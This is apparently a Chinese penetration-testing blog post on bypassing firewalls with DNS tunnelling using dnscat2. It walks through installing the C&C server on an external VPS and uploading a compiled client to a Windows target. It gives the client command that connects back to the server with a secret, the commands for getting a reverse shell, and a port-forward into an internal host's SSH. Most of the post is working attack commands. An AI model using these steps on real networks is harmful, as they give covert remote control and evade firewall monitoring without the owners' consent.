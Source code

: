 ```yaml
---
layout: post
title: 通过DNS协议绕过防火墙
categories: penetration
tags: [penetration]
---
```

工具

[https://github.com/iagox86/dnscat2](https://github.com/iagox86/dnscat2)

测试环境

```
ubuntu 14.04 root用户
windows7 x64 user用户
```

**0x01环境准备**

```
apt-get update
apt-get -y install ruby-dev git make g++
gem install bundler
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server
#修改Gemfile source 'https://ruby.taobao.org/'
bundle install
```

或者通过docker安装

```
apt-get install docker.io
service docker status
service docker start
cd ~/dnscat2/server
#修改Gemfile source 'https://ruby.taobao.org/'
docker build .
```

安装完成之后，可能在docker images 看到这个镜像没有名字，我们修改一下 docker tag IMAGEID  mpercival/dnscat2

**0x02利用过程**

server端

```
cd dnscat2/server
ruby ./dnscat2.rb
#docker用户  docker run -p 53:53/udp -it --rm mpercival/dnscat2 ruby ./dnscat2.rb
```

![2841831801](/old_img/2017-04-17-2841831801.png)

 可以通过两种方式设置C&C地址，如果没有域名的话，直接在外网VPS运行ruby ./dnscat2.rb 有域名的童鞋，先设置好NS服务器将NS记录修改为当前的机器。然后通过ruby ./dnscat2.rb yourdomain 我这里使用的IP地址

client端

将dnscat2文件夹下面的client编译好成exe，然后上传到client端

```
dnscat2.exe --dns=server=server端ip --secret=c2c6d04cab68ee2947d80316858da0f8
```

![3501735141](/old_img/2017-04-17-3501735141.png)

由于在新版本的dnscat2是加密的所以我们在客户端执行的时候要加上秘钥，不然无法正确的建立连接
![197873402](/old_img/2017-04-17-197873402.png)

获取shell

```
session -i 1 #切换到session 1
help #通过help可以看到支持的命令
shell  #执行之后会新生成一个session  需要通过session -i 2 切过去
```

![842306562](/old_img/2017-04-17-842306562.png)

这样就成功获取了一个shell，我们可以通过数据包看一下

![3078174618](/old_img/2017-04-17-3078174618.png)

数据都是通过DNS发出去的，并且是加密过的，因为在最初的dnscat2的版本中，数据只是简单的hex编码。到最新版的默认就已经加密

![2981816537](/old_img/2017-04-17-2981816537.png)

通过Salsa20加密算法进行了加密，如果不知道秘钥，就几乎不能解密数据包了。除了普通的反弹shell和上传下载文件功能，还有一个比较有用的功能
可以通过dnscat2实现DNS隧道，然后进行内网渗透。在成功获取一个session之后执行

```
session -i id
listen 4444 10.211.55.19:22 #将内网10.211.55.19的22端口转发到本地的4444
```

![2557060718](/old_img/2017-04-17-2557060718.png)

然后直接ssh本地的ip的4444端口

![2093290607](/old_img/2017-04-17-2093290607.png)

注意的是我用的docker环境，所以是直接ssh的docker的ip



**0x03参考**

[https://github.com/iagox86/dnscat2](https://github.com/iagox86/dnscat2)

[https://zeltser.com/c2-dns-tunneling/](https://zeltser.com/c2-dns-tunneling/)


  

